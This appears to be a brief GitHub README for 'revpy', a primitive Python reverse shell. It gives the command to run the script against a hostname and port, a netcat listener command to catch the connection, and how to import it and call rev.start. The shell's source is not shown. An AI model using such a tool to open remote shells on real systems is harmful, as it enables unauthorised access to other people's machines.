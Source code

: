 # revpy
Primative reverse shell written in Python.

# usage
python rev.py <hostname> <port>

# how to run a server
run "netcat -lp <port>"

# how to import and use in your own python code
import \<location of your rev.py file\>
  
...

rev.start(hostname, port)
